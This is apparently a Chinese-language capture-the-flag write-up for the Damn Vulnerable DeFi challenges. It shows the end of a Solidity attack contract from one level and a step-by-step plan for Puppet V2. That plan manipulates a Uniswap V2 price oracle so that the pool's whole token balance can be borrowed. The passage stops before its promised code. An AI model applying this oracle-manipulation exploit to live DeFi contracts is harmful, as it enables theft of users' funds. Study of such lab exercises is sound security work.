 ```solidity
                "ethToTokenSwapOutput(uint256,uint256)",
                playerAmount,
                type(uint256).max
            )
        );
        token.transfer(msg.sender, token.balanceOf(address(this)));
        payable(msg.sender).transfer(address(this).balance);
    }

    function prepareAttack(uint8 v, bytes32 r, bytes32 s, uint256 amount, address _uniswapPair) internal {
        // tranfser player token to attacker contract
        token.permit(msg.sender, address(this), type(uint256).max, type(uint256).max, v,r,s);
        token.transferFrom(msg.sender, address(this), amount);
        token.approve(_uniswapPair, amount);
    }
}
```

## Challenge 9 - Puppet V2

### 合约

- PuppetV2Pool: 提供borrow方法，用weth换出token，token价格来自于uniswap的报价
- Uniswap-v2相关合约

### 测试

- 部署weth和token合约
- 部署uniswap factory、router、pair合约
- 通过与router合约交互注入流动性，token数目：UNISWAP_INITIAL_TOKEN_RESERVE，eth数目：UNISWAP_INITIAL_WETH_RESERVE
- 部署puppetV2Pool合约，向player和pool中分别转入PLAYER_INITIAL_TOKEN_BALANCE和POOL_INITIAL_TOKEN_BALANCE数目的token
- 执行测试脚本
- 期望pool中的token余额为0，player的token余额大于POOL_INITIAL_TOKEN_BALANCE

### 题解

这道题的攻击思路和Puppet- v1的思路类似，仍然是利用uniswap价格预言机对pool进行攻击，

值得注意的是这里使用的都是uniswap-v2，在v2中使用的是token和weth的代币对，但是player用户开始只有eth，需要与weth合约进行交互

完整的攻击流程如下图所示：

- 第一步：通过调用`swapExactTokensForTokens` 将player账户中的全部token换成weth，从而降低token在uniswap中的单价
- 第二步：计算借出池子中的全部token需要花费多少weth，在经过第一步后已经拿到一部分weth，再通过质押eth补齐剩余的weth
- 第三步：调用池子的`borrow` 方法，将pool中的全部token借出
- 第四步：（本题未做要求，可以将weth放入池子中，补足池子中的差价）


![image](https://pic.imgdb.cn/item/654e67b2c458853aef7995fa.jpg)


完整的步骤代码示例如下：
